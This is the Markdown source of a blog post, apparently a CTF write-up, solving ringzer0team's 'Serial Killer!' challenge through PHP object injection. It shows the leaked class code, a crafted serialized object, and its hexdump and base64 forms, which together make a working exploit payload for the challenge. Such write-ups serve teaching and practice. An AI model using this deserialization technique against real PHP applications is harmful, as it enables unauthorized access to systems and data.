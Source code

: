 ```yaml
---
layout: post
title:  "Writeup - ringzer0team.com challenges (web 41) - 'Serial Killer!'"
date:   2018-05-21 11:14:41 -0400
categories: ringzer0team.com writeup
---
```

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-init.png)
This challenge initially displays a timestamp on the page. Digging into the request being sent, notice that there is a base64 encoded string within the GET request:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-base64.png)

When decoded, this is immediately recognizable as a serialized PHP object:

{% highlight php %}
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":1:{s:6:"action";s:14:"GetCurrentDate";}}
{% endhighlight %}

What happens if we add a single character within the base64 encoded "?o=" serialized value to upset the object structure? A wild stack trace appears:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-stack-trace.png)

Cleaning this up reveals the following PHP code. This shows the same 'RandomClass' class as exists in the discovered serialized string. What if we could inject our own object with arbitrary values and somehow retrieve the flag? In order to do that, we must first understand how the available PHP ['magic methods'](http://php.net/manual/en/language.oop5.magic.php) within the stack trace might assist us. Recommended reading for understanding PHP Object Injection will also be linked at the bottom of this post.

{% highlight php linenos %}
<?php

class RandomClass {

    private static $instance;
    private $uStruct;
    
    public function __construct() {
        $this->uStruct = (object) array();
    }
    
    public static function GetInstance() {
        if (!isset(self::$instance)) {
            self::$instance = new self();
        }
        return self::$instance;
    }

    public function __set($key, $value) {
        $this->uStruct->$key = $value;
    }

    public function __get($key) {
        return $this->uStruct->$key;
    }
    
    public function DoAction() {
        $action = $this->uStruct->action;
        $this->$action();
    }

    public function GetCurrentDate() {
        GetCurrentDate($this->uStruct);
    }

    public function ShowFlag() {
        if ($this->uStruct->time !== null && $this->uStruct->flag == 'Please?') {
            ShowFlag($this->uStruct);
        }
    }

    public function GetOutput() {
        return $this->uStruct->output;
    }
}
?>
{% endhighlight %}

Walking through the PHP code, first notice two private members. Immediately following that is the __construct() method. This magic method is called on each newly-created object, generally utilized for initialization of some sort. Inside the constructor is an empty array cast to an object, which is assigned to $this->uStruct.

From the PHP documentation, ["If a value of any other type is converted to an object, a new instance of the stdClass built-in class is created. If the value was NULL, the new instance will be empty. An array converts to an object with properties named by keys and corresponding values."](http://php.net/manual/en/language.types.object.php#language.types.object.casting)

The next magic method is __set. Reading PHP docs, ["__set() is run when writing data to inaccessible properties."](http://php.net/manual/en/language.oop5.overloading.php#language.oop5.overloading.members). This looks potentially promising. The __get() magic method is also defined here, but what really catches the eyes is the ShowFlag() function. If only it was possible to set the variables $this->uStruct->time and $this->uStruct->flag and retrieve the flag...

With the leak of the RandomClass class, we can create our own serialized object, base64 encode it, and provide as the value for "?o=" within the HTTP query string.

{% highlight php %}
$obj = new RandomClass();
$obj->time = "1";
$obj->flag = "Please?";
$obj->action = "ShowFlag";
echo serialize($obj);
{% endhighlight %}

{% highlight bash %}
root@kali:~/Challenge41# php sploit.php 
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":3:{s:4:"time";s:1:"1";s:4:"flag";s:7:"Please?";s:6:"action";s:8:"ShowFlag";}}

root@kali:~/Challenge41# php sploit.php | hexdump -C
00000000  4f 3a 31 31 3a 22 52 61  6e 64 6f 6d 43 6c 61 73  |O:11:"RandomClas|
00000010  73 22 3a 31 3a 7b 73 3a  32 30 3a 22 00 52 61 6e  |s":1:{s:20:".Ran|
00000020  64 6f 6d 43 6c 61 73 73  00 75 53 74 72 75 63 74  |domClass.uStruct|
00000030  22 3b 4f 3a 38 3a 22 73  74 64 43 6c 61 73 73 22  |";O:8:"stdClass"|
00000040  3a 33 3a 7b 73 3a 34 3a  22 74 69 6d 65 22 3b 73  |:3:{s:4:"time";s|
00000050  3a 31 3a 22 31 22 3b 73  3a 34 3a 22 66 6c 61 67  |:1:"1";s:4:"flag|
00000060  22 3b 73 3a 37 3a 22 50  6c 65 61 73 65 3f 22 3b  |";s:7:"Please?";|
00000070  73 3a 36 3a 22 61 63 74  69 6f 6e 22 3b 73 3a 38  |s:6:"action";s:8|
00000080  3a 22 53 68 6f 77 46 6c  61 67 22 3b 7d 7d        |:"ShowFlag";}}|
0000008e

root@kali:~/Challenge41# php sploit.php | base64
TzoxMToiUmFuZG9tQ2xhc3MiOjE6e3M6MjA6IgBSYW5kb21DbGFzcwB1U3RydWN0IjtPOjg6InN0
ZENsYXNzIjozOntzOjQ6InRpbWUiO3M6MToiMSI7czo0OiJmbGFnIjtzOjc6IlBsZWFzZT8iO3M6
NjoiYWN0aW9uIjtzOjg6IlNob3dGbGFnIjt9fQ==
{% endhighlight %}

Based on a review of the code, this object we have constructed should be suitable to reach the ShowFlag() method properly, considering that **(a)** $this->uStruct->time is not null, **(b)** $this->uStruct->flag is set to 'Please?', and **(c)** $obj->action is set to 'ShowFlag'. Sending this payload results in the flag being displayed on the page.

![Flag]({{ site.baseurl }}/images/rz-flag.png)

Useful resources to learn more about PHP Object Injection:
* [https://www.nds.rub.de/media/hfs/attachments/files/2010/03/hackpra09_fu_esser_php_exploits1.pdf](https://www.nds.rub.de/media/hfs/attachments/files/2010/03/hackpra09_fu_esser_php_exploits1.pdf)
* [https://www.alertlogic.com/blog/writing-exploits-for-exotic-bug-classes-unserialize()/](https://www.alertlogic.com/blog/writing-exploits-for-exotic-bug-classes-unserialize()/)
* [https://www.notsosecure.com/remote-code-execution-via-php-unserialize/](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/)
* [https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf](https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf)
* [https://www.insomniasec.com/downloads/publications/Deserialization%20-%20%20What%20Could%20Go%20Wrong.pdf](https://www.insomniasec.com/downloads/publications/Deserialization%20-%20%20What%20Could%20Go%20Wrong.pdf)
* [https://websec.files.wordpress.com/2010/11/rips_ccs.pdf](https://websec.files.wordpress.com/2010/11/rips_ccs.pdf)
* [https://tom.vg/2013/09/wordpress-php-object-injection/](https://tom.vg/2013/09/wordpress-php-object-injection/)
* [https://www.tarlogic.com/en/blog/how-php-object-injection-works-php-object-injection/](https://www.tarlogic.com/en/blog/how-php-object-injection-works-php-object-injection/)
* [https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
* [https://securitycafe.ro/2015/01/05/understanding-php-object-injection/](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
